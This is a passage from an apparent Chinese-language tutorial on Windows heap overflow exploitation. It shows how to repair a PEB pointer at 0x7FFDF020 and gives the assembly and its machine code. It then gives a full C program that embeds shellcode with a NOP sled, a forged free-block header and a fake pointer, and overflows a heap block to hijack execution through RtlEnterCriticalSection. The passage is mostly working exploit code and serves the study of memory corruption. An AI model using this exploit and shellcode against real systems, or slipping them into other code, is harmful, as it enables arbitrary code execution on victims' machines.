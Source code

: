 这可以通过下面 3 条指令实现：
```
MOV EAX,7FFDF020
MOV EBX,77F8AA4C
MOV [EAX], EBX
```

变为机器码为：
```
\xB8\x20\xF0\xFD\x7F
\xBB\x4C\xAA\xF8\x77
\x89\x18
```

将这 3 条指令的机器码放在 shellcode 之前，重新调整 shellcode 的长度为 200 字节，然后 8 字节块首，8 字节伪造的指针。原来的程序变为如下情况：

```c++
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
//repaire the pointer which shooted by heap over run
"\xB8\x20\xF0\xFD\x7F" //MOV EAX,7FFDF020
"\xBB\x4C\xAA\xF8\x77" //MOV EBX,77F8AA4C the address may releated to your OS
"\x89\x18"//MOV DWORD PTR DS:[EAX],EBX
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x52\x00\x20\xf0\xfd\x7f";
//0x00520688 is the address of shellcode in first heap block, you have to
//make sure this address via debug
//0x7ffdf020 is the position in PEB which hold a pointer to
//RtlEnterCriticalSection()and will be called by ExitProcess() at last
main()
{
HLOCAL h1 = 0, h2 = 0;
HANDLE hp;
hp = HeapCreate(0,0x1000,0x10000);
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
memcpy(h1,shellcode,0x200); //overflow,0x200=512
h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
return 0;
} 
```
